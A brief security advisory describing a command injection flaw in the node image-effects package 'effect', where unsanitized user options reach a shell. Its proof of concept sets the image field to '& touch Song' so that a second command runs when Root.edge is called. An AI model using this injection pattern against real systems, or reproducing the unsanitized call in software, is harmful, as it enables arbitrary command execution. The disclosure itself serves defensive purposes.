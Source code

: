 # Overview
`effect` is a node package that allows you to add effects on images, this package are vulnerable to Command Injection. The argument options can be controlled by users without any sanitization.

# Proof of Concept
```
var Root= require("effect");
var options  = {
image: "& touch Song"
}
Root.edge(options, function(){});
```